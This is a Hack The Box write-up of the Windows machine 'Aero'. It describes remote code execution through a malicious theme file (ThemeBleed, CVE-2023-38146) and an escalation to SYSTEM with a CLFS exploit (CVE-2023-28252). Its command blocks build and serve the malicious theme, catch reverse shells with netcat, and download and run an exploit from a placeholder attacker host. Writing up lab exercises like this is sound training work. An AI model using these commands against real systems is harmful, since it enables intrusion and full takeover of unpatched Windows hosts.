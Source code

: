 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Exploits Used**:
    
    - 🎨 **ThemeBleed** (CVE‑2023‑38146) – race‑condition on `.msstyles` _vrf.dll loading
    - 🐛 **CLFS EoP** (CVE‑2023‑28252) – Common Log File System token stealing
    - ⚙️ Local PrivEsc via Nokoyawa-style CLFS exploit

**Open Ports:**

- [80](HTTP)/tcp – HTTP (IIS + ARR/3.0)

---

## 🧠 TLDR

1. **Recon & Static** – Found IIS 10, a theme‑upload form allowing `.theme`/`.themepack` only.
2. **RCE via ThemeBleed** – Built a malicious DLL exporting `VerifyThemeVersion`, packaged it into a theme with ThemeBleed POC, ran the built‑in SMB server, uploaded to trigger a reverse shell as `aero\sam.emerson` 🎉
3. **EoP to SYSTEM** – Retrieved and reviewed CVE‑2023‑28252_POC, patched to drop a Base64‑powered PowerShell reverse shell, ran it on the box to escalate from user to `NT AUTHORITY\SYSTEM` 🚀
4. **Beyond Root** – Discovered use of `FileSystemWatcher` in `watchdog.ps1` for auto‑launching uploaded themes, showcasing automation via PowerShell events.
    

---

## 🧰 Tools

- **Port/Content Discovery**: `nmap`, `feroxbuster`
- **ThemeBleed Exploit**: [ThemeBleed.exe](https://github.com/example/ThemeBleed) (make_theme/make_themepack + servere
- **DLL Builder**: Visual Studio (C++ DLL project exporting `VerifyThemeVersion`)
- **Networking**: `nc -lvnp` for callback listener
- **EoP Exploit**: CLFS PoC (CVE‑2023‑28252) from Fortra
- **PowerShell**: `Invoke‑WebRequest`, `FileSystemWatcher`, `Convert::ToBase64String`

---

## 🚀 Commands

```bash
# 1) Recon
nmap -p- --min-rate 10000 -oA aero-full 10.10.11.237
nmap -p80 -sCV     10.10.11.237

# 2) Build & Deploy ThemeBleed RCE
#   • Compile ReverseShellDLL.dll exporting VerifyThemeVersion()
#   • Copy into POC repo: data/stage_3/
#   • Generate theme: 
./ThemeBleed.exe make_theme YOUR_IP exploit.theme
#   • Disable local SMB on attacker host (stop Server service) / reboot
#   • Run SMB server:
./ThemeBleed.exe server
#   • Upload exploit.theme via web form
nc -lvnp 4444           # catch shell as sam.emerson
```

```
# 3) Privilege Escalation via CLFS
#   • Exfiltrate CVE summary PDF:
[convert]::ToBase64String((Get-Content CVE-2023-28252_Summary.pdf -Encoding byte))
#   • Build CLFS exploit in VS (Release, MBCS)
#   • Download & execute on target:
iwr http://YOUR_IP/clfs_eop.exe -outfile clfs_eop.exe
.\clfs_eop.exe         # drops SYSTEM reverse shell

nc -lvnp 9001           # catch SYSTEM shell

# 4) Beyond Root – Automation Insight
#   • Review watchdog.ps1 using FileSystemWatcher in C:\inetpub\aero\uploads
```

---

## 📚 Lessons Learned

- 🎨 **ThemeBleed** shows how signed‐DLL checks can be raced via filesystem swap (_vrf.dll).
    
- 🐛 **CLFS Token Stealing** is a powerful kernel escape when patch KB5025224 is missing.
    
- ⚙️ **PowerShell FileSystemWatcher** eventing can automate “clicking” actions server‑side.
    
- 🛠️ Always inspect uploads & backups for local enum or creds, then chain to EoP.
    

---

## 📖 References

- [ThemeBleed (CVE‑2023‑38146) POC](https://github.com/0xdf/ThemeBleed)
    
- [Fortra CLFS EoP (CVE‑2023‑28252)](https://github.com/fortra/clfs-eop)
    
- [Microsoft Security Update Guide](https://msrc.microsoft.com/update-guide)
    
- [HTB Aero Discussion & Walkthrough](https://0xdf.gitlab.io/2023/09/28/htb-aero.html)